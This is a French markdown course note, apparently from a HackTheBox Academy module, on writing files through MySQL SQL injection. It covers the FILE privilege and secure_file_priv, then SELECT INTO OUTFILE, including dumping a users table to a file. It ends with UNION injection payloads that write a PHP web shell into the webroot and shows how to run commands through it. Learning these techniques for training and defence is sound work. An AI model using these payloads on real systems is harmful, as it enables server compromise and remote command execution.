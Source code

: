 ```yaml
---
title:  "Écriture de Fichiers"
category: "Exploitation"
tag: "Principes de base de l'injection SQL"
---
```

Concernant l'écriture de ficheirs dans un serveur back-end, cela devient beaucoup plus complexe que l'écriture dans les SGBD modernes

# Privilèges d'écriture sur les fichiers

Pour écrire des fichiers dans un serveur en utilisant une base de données, on a besoin :
- d'être un utilisateur avec le privilège **FILE**.
- Que la variable globale **secure_file_priv** de MySQL ne soit pas activée.
- Des droits d'écriture sur la localisation où nous voulons écrire sur le serveur.

On a vu dans la section "Lecture de Fichiers" comment voir si nous avons le droit **FILE**. Nous allons voir maintenant comment inspecter les droits d'écriture de la BDD MySQL, en regardant la variable globale **secure_file_priv**.

### secure_file_priv

Cette variable est utilisée pour déterminer où lire/écrire les fichiers.
On retrouve plusieurs droits en fonction de sa valeur :
- si elle est vide : on peut lire les fichiers depuis l'intégralité du système de fichiers
- valeur à **NULL** : on ne peut pas lire/écrire à partir d'un répertoire.
- Si un certain répertoire est défini, nous ne pouvons lire que dans le répertoire spécifié par la variable.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';  # voir la variable avec MySQL
```

Dans **INFORMATION_SCHEMA** :

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

# SELECT INTO OUTFILE

L'instruction **SELECT INTO OUTFILE** permet d'écrire des données provenant d'instructions SELECT dans des fichiers, principalement utilisé pour exporter des données des tables.

Pour l'utiliser, on ajoute **INTO OUTFILE '...'** après la requête pour exporter le résultat dans le fichier spécifié (voir exemple).

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

On peut également faire des **SELECT** sur des strings dans des fichiers pour écrire des fichiers arbitraires dans les serveurs.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

# Écriture de fichiers par injection SQL (webshell)

Nous allons prendre un exemple d'écriture d'un fichier texte dans un **webroot** (dossier web de base pour un serveur web).
Liste de webroot pour [linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) et [windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt).

Dans l'exemple précédent, on récupère notre injection **union** avec le webroot /var/www/html

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

On ne voit plus l'affichage dans le site web mais bien dans le fichier.
> Remarque : Pour éviter d'avoir du contenu non nécessaire dans le fichier tout en ayant la possibilité de faire la requête UNION, on peut utiliser "" à la place des chiffres.

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA6.png" alt="Alt text"></center>

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA7.png" alt="Alt text"></center>

## Écriture de Web Shell

Une fois qu'on a la confirmation de l'écriture de nos droits d'écriture de fichiers, on peut écrire un script web PHP dans le webroot. Par exemple, le suivant :

```php
<?php system($_REQUEST[0]); ?>
```

Dans notre cas ça donne :

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Et on utilise nos commandes de la manière suivante :

```html
www.website.com/script.php?0=myCommand
```